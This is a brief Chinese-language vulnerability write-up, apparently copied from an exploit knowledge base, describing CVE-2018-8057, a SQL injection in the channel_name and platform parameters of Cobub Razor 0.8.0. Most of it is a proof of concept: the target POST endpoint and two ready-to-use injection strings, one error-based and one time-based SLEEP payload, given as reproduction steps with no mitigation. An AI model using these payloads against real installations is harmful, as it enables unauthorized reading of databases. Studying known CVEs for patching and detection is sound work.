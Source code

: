 # （CVE-2018-8057）Cobub Razor 0.8.0 存在 SQL 注入漏洞

> 原文：[http://book.iwonder.run/0day/Cobub Razor/CVE-2018-8057.html](http://book.iwonder.run/0day/Cobub Razor/CVE-2018-8057.html)

## 一、漏洞简介

Cobub Razor 0.8.0 存在 SQL 注入漏洞，“/application/controllers/manage/channel.php”页面的“channel_name”及“platform”参数过滤不严格导致存在 SQL 注入漏洞。Cobub Razor 是一个在 github 上开源的系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/162)告知作者。

## 二、漏洞影响

Cobub Razor 0.8.0

## 三、复现过程

### POC

```
> http://www.0-sec.org/index.php?/manage/channel/addchannel  

> POST data:  

>  1.channel_name=test" AND (SELECT 1700 FROM(SELECT COUNT(*),CONCAT(0x7171706b71,(SELECT (ELT(1700=1700,1))),0x71786a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- JQon&platform=1  

>  2.channel_name=test" AND SLEEP(5)-- NklJ&platform=1 
```

